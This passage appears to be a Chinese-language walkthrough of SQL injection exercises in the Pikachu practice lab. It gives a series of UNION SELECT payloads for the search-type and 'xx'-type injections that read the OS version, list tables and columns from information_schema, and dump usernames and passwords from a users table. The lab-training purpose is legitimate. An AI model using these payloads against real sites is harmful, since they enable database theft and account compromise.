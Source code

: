 ```sql
name=1%' union select 1,2,3#
```

查操作系统，查表名

```sql
name=1%' union select @@version_compile_os,group_concat(table_name),3 from information_schema.tables where table_schema=database()#
```

查users表下的字段名（查其他表对应替换table_name）

```sql
name=1%' union select version(),@@version_compile_os,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()#
```

查users表下的数据

```sql
name=1%' union select username,id,password from users#
```

![pikachu43](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu43.png)

## xx型注入

name字段可注入，从报错可知，闭合语句需要`')`

查字段，order by到3报Unknown column '3' in 'order clause'，说明就2个字段，name字段注入数据如下

```sql
name=') order by 3#
```

查显示位（2个显示位）

```sql
name=') union select 1,2#
```

查操作系统，查表名

```sql
name=') union select @@version_compile_os,group_concat(table_name) from information_schema.tables where table_schema=database()#
```

查users表下的字段名（查其他表对应替换table_name）

```sql
name=') union select @@version_compile_os,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()#
```

查users表下的数据

```sql
name=') union select username,password from users#
```
